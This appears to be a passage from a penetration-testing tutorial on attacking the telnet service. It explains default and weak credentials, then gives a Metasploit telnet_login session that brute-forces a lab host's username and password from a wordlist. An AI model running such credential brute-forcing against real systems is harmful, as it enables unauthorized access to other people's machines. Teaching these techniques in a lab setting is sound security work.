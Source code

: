  
2. **Bruteforce attack for default crudentials** As it is a remote access protocol, it uses `user-password` based authentication to establise a connection with the server like the ssh protocol. So we can do **bruteforce to get the username and password** to authenticate with the target if it uses the default or weak crudentials.

 ### Exploitation
In order to exploit the telnet service we are **Using bruteforce method** to get the username and password to authenticate with the target.
### Bruteforcing the telnet service using metasploit
```
msfconsole
msf > search telnet_login
msf > use /auxiliary/scanner/telnet/telnet_login
msf auxiliary(scanner/telnet/telnet_login) > options
msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/telnet/telnet_login) > set PASS_FILE /home/kali/test_bruteforce.txt
msf auxiliary(scanner/telnet/telnet_login) > set USER_FILE /home/kali/test_bruteforce.txt
msf auxiliary(scanner/telnet/telnet_login) > set STOP_ON_SUCCESS true
msf auxiliary(scanner/telnet/telnet_login) > set VERBOSE true
msf auxiliary(scanner/telnet/telnet_login) > exploit
```
Output:

![](../images/telnet_exploitation_using_bruteforce_1.png)
